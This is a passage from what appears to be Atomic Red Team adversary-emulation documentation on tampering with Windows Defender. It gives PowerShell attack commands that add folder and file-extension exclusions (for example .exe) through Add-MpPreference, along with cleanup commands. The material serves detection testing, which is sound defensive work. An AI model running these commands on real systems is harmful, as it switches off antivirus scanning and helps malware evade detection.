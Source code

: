 **Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| excluded_folder | This folder will be excluded from scanning | String | C:&#92;Temp|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
$excludedpath= "#{excluded_folder}"
Add-MpPreference -ExclusionPath $excludedpath
```

#### Cleanup Commands:
```powershell
$excludedpath= "#{excluded_folder}"
Remove-MpPreference -ExclusionPath $excludedpath
```





<br/>
<br/>

## Atomic Test #22 - Tamper with Windows Defender Evade Scanning -Extension
Malware can exclude specific extensions from being scanned and evading detection.
Upon successful execution, the extension(s) should be on the list of excluded extensions.
To check the exclusion list using poweshell  (Get-MpPreference).ExclusionExtension.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| excluded_exts | A list of extension to exclude from scanning | string | .exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
$excludedExts= "#{excluded_exts}"
Add-MpPreference -ExclusionExtension  $excludedExts
```
